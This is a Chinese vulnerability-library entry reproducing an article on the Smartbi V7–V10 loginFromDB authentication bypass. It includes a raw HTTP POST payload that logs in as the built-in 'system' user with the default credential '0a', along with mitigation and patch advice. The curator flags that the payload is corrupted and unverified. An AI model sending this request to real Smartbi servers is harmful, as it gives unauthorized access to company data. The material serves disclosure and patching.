


# Smartbi 内置用户loginFromDB认证绕过

## 条目说明

- 对象与具体问题：Smartbi；内置用户loginFromDB认证绕过
- 版本、配置及部署条件：V7至V10概括，补丁级未知
- 认证与权限前提：匿名初始会话转内置用户
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 载荷&params损坏为¶ms，HTTP头行粘连且头体缺空行，不能直接复现
- RCE是后续能力非本文直接证据；密文0a与默认明文口令勿混淆
- 删内置账户可能破坏业务，保留评估条件并优先官方补丁

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/VQxjk5UFgLZJ2U6hUAJWRg)

**漏洞说明**

Smartbi 是一款企业级报表平台产品，旨在帮助企业用户快速搭建企业报表平台，将企业内部流转的数据转化为可视化的报表，以便于企业决策者进行数据分析和决策。  

Smartbi 的功能包括：格式化的中国式报表、电子表格功能、随时查看报表、数据透视表、多维分析等。  

Smartbi 在安装时会内置三个用户（public、service、system），在使用特定接口时，可绕过用户身份认证机制。未经身份验证的攻击者通过该漏洞可获取系统中敏感信息，长亭和微步的预警中还提示可进行 RCE

**影响版本**

```
   V7 <= Smartbi <= V10

```

**漏洞复现**



payload：

```http
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: IP：PORT
Cookie: JSESSIONID=B49B33FAF5B8F0EBA546D2D149200A30
Content-Length: 67
Cache-Control: max-age=0
Sec-Ch-Ua: 
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36Sec-Ch-Ua-Platform: ""
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
className=UserService&methodName=loginFromDB¶ms=["system","0a"]

```

**这里存在三个内置用户【"public"、"service"、"system"】, 默认的口令都是 "0a".  
**

此时刷新页面即可绕过身份验证进行系统内部

**修复建议**

**官方措施：**

官方已发布修复方案，受影响的用户建议及时下载补丁包进行漏洞修复 https://www.smartbi.com.cn/patchinfo

**临时措施**

在确认不影响业务的前提下，修改内置账号 (public、service、system) 的默认密文(默认值为 0a)，或者删除内置账号。非必要尽量不让服务部暴露在公网。

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
